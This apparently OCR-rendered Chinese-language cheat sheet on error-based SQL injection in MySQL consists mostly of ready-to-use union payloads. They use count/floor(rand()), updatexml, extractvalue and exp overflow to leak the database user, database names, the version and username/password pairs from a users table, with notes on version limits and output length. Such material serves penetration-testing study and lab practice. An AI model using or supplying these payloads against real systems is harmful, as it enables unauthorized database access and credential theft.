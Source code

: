 ## 报错注入

```sql
count函数报错回显，当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。
count函数报错注入好像得mysql<5.7,这个方法有时候会报错,因为随机数重复,多试几遍几好了。还要注意列的长度
# count报错注入都是基于这句话的,可自己变形
union select count(*),1, concat((*payload*), floor(rand()*2)) as a from information_schema.tables group by a--+
# 查看用户
union select count(*),1, concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a--+
# 查询mysql的数据库
union select count(*),1, concat('~',(select database()),'~', floor(rand()*2))as a from information_schema.tables group by a--+
# 查询mysql的数据库版本
union select count(*),1, concat('~',(select version()),'~', floor(rand()*2))as a from information_schema.tables group by a--+

updatexml函数报错，高版本的mysql已经修复了该bug
# updatexml函数报错回显,都是基于这句话的,可自己变形
union select updatexml(1,concat(0x7e,(*payload*),0x7e),1)--+
# 获取用户名
union select updatexml(1,concat(0x7e,(select user()),0x7e),1)--+
# 获取当前数据库
union select updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
# 获取数据库
union select updatexml(1,concat(0x7e,(select  schema_name from information_schema.schemata limit 0,1),0x7e),1)--+
# 获取数据
union select updatexml(1,concat(0x7e,(SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1),0x7e),1)--+

extractvalue函数报错回显，注意字段的长度，不支持低版本 mysql
# extractvalue函数报错回显,都是基于这句话的,可自己变形
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(*payload*),'~'))--+
# 获取用户
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(select user()),'~'))--+
# 查看数据库名
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(select database()),'~'))--+
# 获取数据
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1),'~'))--+

注意：extractvalue()函数，updatexml()函数能查询字符串的最大长度也是32，如果超过则也需要使用substring()函数截取，一次查看32位

Exp函数是以e为底的对数函数,exp()函数报错注入是一个Double型数据溢出
# exp函数报错回显,都是基于这句话的,可自己变形
union select 1,1,exp(~(select*from(*payload*)x))--+
# 获取用户
union select 1,1,exp(~(select*from(select user())x))--+
# 获取数据
union select 1,1,exp(~(select*from(SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1)x))--+

报错型输入还有很多函数可以利用，而且现在报错型注入用的并不多了，基本上都是盲注了。其中报错语句替换，最核心的还是concat函数
```
